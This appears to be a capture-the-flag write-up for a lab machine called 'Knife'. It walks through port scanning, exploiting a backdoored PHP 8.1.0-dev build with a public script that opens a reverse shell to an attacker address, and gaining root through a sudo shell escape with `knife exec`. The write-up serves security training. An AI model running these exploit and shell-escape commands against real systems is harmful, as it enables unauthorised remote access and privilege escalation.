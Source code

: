 # Knife

# Enumeration

## Nmap

I start with a simple nmap scan. This system is running an Apache web server on port 8- and OpenSSH over port 22. 

![Untitled](POC/nmap.png)

Most of these boxes run ssh over port 22 to allow users to ssh into the box once they obtain initial access, in order to provide a more stable shell. Because of this, I will focus on the web server for now.

## Website

I navigate to the website which looks pretty simple, and none of the buttons have been configured to navigate anywhere.

![Untitled](POC/website.png)

I try adding `/index.php` to the end of the URL, and get the same page. This indicates to me that the website is PHP based. I’ll head to dirb to try and find some potential vectors.

## Dirb

The scan comes back with nothing new besides `/server-status` which doesn’t help.

![Untitled](POC/dirb.png)

With how little I have uncovered at this point, I begin to think this may be a vulnerability with a specific version. The SSH and Apache versions are not vulnerable, and the only other thing I know about this box is that the website runs PHP.

## PHP 8.1

I had neglected to check Wappalyzer when I initially enumerated the website, but looking at it now I find that the PHP is version 8.1.0. 

![Untitled](POC/wappalyzer.png)

A quick google search reveals that this version of PHP is vulnerable to a backdoor which allows for remote code execution, just what I was looking for!

# Exploitation

## PHP 8.1 Backdoor

The first link I explore is a github POC for a [python script](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) which exploits the vulnerability to create a reverse shell. I’ll copy the script into a new python file named `rev.py` and give it the proper arguments to send a reverse shell. 

```bash
python3 rev.py http://knife.htb:80/ 10.10.14.2 1234
```

Before I send the payload, I start up a netcat listener on port 1234 to catch the shell. Once I send the payload, I get the shell back almost immediately!

![Untitled](POC/reverse_shell.png)

It seems I have obtained access as a user named james.

## User Flag

Before I go any further, I navigate to the user’s home directory and grab the user flag.

![Untitled](POC/user_flag.png)

# Privelege Escalation

## Sudo Commands

When trying to escalate priviledges on linux boxes, my first step is always running `sudo -l` to see what commands the user can run as sudo. We get lucky and it looks like this user can run knife as sudo!

![Untitled](POC/james_sudo.png)

## Knife

Since I am not familiar with knife, I’ll take a look at [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) and see what I can find. I find that knife has an exec command that executes Ruby code. From previous boxes I know that Ruby can be used to escalate priviledges as well with `sudo ruby -e 'exec "/bin/sh"’` . The code that is actually executed in that case is `exec "/bin/sh"` , so I should be able to do the same here.

```bash
sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
```

Using knife to execute the Ruby code I am given a new shell. Running `whoami` reveals I have obtained root access!

![Untitled](POC/root.png)

## Root Flag

With root access I can grab the root flag from the root directory!

![Untitled](POC/root_flag.png)
